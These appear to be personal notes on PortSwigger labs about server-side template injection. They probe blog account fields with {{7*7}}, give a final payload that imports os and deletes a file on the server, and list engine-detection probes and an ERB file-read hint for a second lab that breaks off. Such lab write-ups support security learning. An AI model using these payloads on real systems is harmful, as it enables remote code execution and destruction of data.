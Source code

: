 exploer different input points - 
1 .comment filed dosent produce errror with payload: "${{<%[%'"}}%\"
2 .email field is protected with email format validation
3 .preffered name seems to use a call to "user" object att. - "name":

leave a comment at one of the blog comment section - this installs a reflection of the preffered-name parameter:

    Wiener Peter | 25 July 2022

    blah


and send a prffered-name change with {{7*7}}:
    POST /my-account/change-blog-post-author-display HTTP/1.1
    ..
    blog-post-author-display={{7*7}}&csrf=KLKWNX8M7fYpw8oF7T1Z9ERefUjwnboy

check our comment to see if reflection has change an to what:
    {{49}} | 25 July 2022

    comment

we got a math render on the server! possible RCE vector

lets insert some python inside. remmember to leave original value "user.name" snd close with }} in order to avoid empty value error




final payload:
user.name}}{%+import+os;+%}{{os.remove("/home/carlos/morale.txt");}}



# 3. Lab: Server-side template injection using documentation
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation


to solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 


hint:
    <%<%= Dir.entries('/') %>
    = File.open('/example/arbitrary-file').read %>

login with credentials and edit a template of a post:

    try: ${7*7}
    get: 49

    try: a{*comment*}b
    get: a{*comment*}b

    try: ${"z".join("ab")}
    get: [blank]
